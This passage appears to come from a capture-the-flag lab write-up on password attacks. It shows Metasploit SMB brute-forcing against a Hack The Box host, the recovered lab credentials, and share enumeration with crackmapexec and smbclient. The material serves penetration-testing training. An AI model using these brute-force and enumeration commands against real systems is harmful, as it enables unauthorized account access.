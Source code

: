   * As we have been given a username, we can do a bruteforce attempt to check:

    ```sh
    # checking with both normal password wordlist and mutated password wordlist
    # hydra gives error so we can use msfconsole module

    vim win-users.txt
    # add 'johanna' and 'Johanna' in this file
    # as we are not sure about capital letter

    msfconsole -q

    use auxiliary/scanner/smb/smb_login

    options
    # set the options

    set RHOSTS password-attacks-3.htb
    set USER_FILE ~/pw-attacks/win-users.txt
    set PASS_FILE ~/pw-attacks/password.list

    # this does not work

    # we can try with other wordlist
    set PASS_FILE ~/pw-attacks/mut_pass.list

    run
    ```
  
  * On bruteforcing SMB, we get the creds "johanna:1231234!" (this works for 'Johanna' as well). We can check SMB shares for the workgroup 'WINSRV':

    ```sh
    crackmapexec smb password-attacks-3.htb -u 'johanna' -p '1231234!' --shares
    # lists shares - ADMIN$, C$, david and IPC$

    smbclient -U johanna \\\\password-attacks-3.htb\\ADMIN$
    # NT_STATUS_ACCESS_DENIED
    
    # nothing from other shares
    ```
  